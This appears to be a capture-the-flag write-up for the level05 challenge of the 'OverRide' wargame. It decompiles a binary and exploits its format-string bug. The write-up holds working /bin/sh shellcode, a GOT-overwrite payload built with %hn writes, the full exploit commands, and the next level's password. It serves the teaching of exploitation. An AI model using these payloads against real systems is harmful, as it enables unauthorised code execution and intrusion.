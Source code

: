 ## Step 1: Static & Dynamic Analysis

```c
08048444    int32_t main(int32_t argc, char** argv, char** envp)
08048444    {
08048444        int32_t var_14 = 0;
08048475        void buffer;
08048475        fgets(&buffer, 100, __bss_start);
0804847a        int32_t var_14_1 = 0;
0804847a        
080484ed        while (true)
080484ed        {
080484ed            int32_t i = 0xffffffff;
080484f1            void* buffer_ptr = &buffer;
080484f1            
080484f3            while (i)
080484f3            {
080484f3                bool is_byte_exist = 0 != *(uint8_t*)buffer_ptr;
080484f3                buffer_ptr += 1;
080484f3                i -= 1;
080484f3                
080484f3                if (!is_byte_exist)
080484f3                    break;
080484f3            }
080484f3            
080484fe            if (var_14_1 >= ~i - 1)
080484fe                break;
080484fe            
080484a9            if (*(uint8_t*)(&buffer + var_14_1) > 64 && *(uint8_t*)(&buffer + var_14_1) <= 90)
080484c9                *(uint8_t*)(&buffer + var_14_1) ^= 32;
080484c9            
080484cb            var_14_1 += 1;
080484ed        }
080484ed        
08048507        printf(&buffer);
08048513        exit(0);
08048444    }
```

### Explatation
This binary reads user input into a buffer of 100 bytes using `fgets()`, then processes it by converting uppercase letters to lowercase before printing it with `printf()`. However, the vulnerability lies in the call to `printf()` with the buffer as only argument, which allows for a `format string attack`.

```bash
level05@OverRide:~$ python -c 'print("AAAA" + ("%x " * 15))' | ./level05 
aaaa64 f7fcfac0 f7ec3af9 ffffdbff ffffdbfe 0 ffffffff ffffdc84 f7fdb000 61616161 25207825 78252078 20782520 25207825 78252078
```

This confirms that we control the input processed by `printf()`. Additionally, we can see that our buffer appears at the 10th position in `printf()`'s stack view.

```asm
0x08048376 in exit@plt ()
(gdb) disas
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
=> 0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
```

The function `exit()` is used at the end of `main()`, 
When `exit()` is called, `exit@plt` will jump to the addresses contained in `0x80497e0`, so if we can overwrite this GOT entry, we can redirect execution to our shellcode.

```bash
level05@OverRide:~$ env -i PAYLOAD=$(python -c 'print("\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb ./level05
```

We creat an environement variable containing a shellcode and then start a debuging session with gdb.
The goal is to find the address where the shellcode is stored.

```
x/200s environ
...
0xffffdb91:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220
```

So the beginning of our shell code is `0xffffdb99` (`0xffffdb91` + `PAYLOAD=`).
Since writing a large value like `0xffffdb99` directly using a format string would either cause `printf()` to fail or take too long, we need to split the address into two parts. First, we write the lower 2 bytes, followed by the upper 2 bytes.

```python
>>> hex(0xffffdb99 + 100)
'0xffffdbfd'
>>> 0xdbfd
56317
>>> 0xffff
65535
>>> 56317 -4 -4
56309
>>> 65535 - 56317
9218
```

## Step 2: Exploiting the Binary
```bash
level05@OverRide:~$ python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56309d%10$hn" + "%9218d%11$hn")' > /tmp/exploit

level05@OverRide:~$ cat /tmp/exploit - | env -i PAYLOAD=$(python -c 'print("\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05

...

% cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```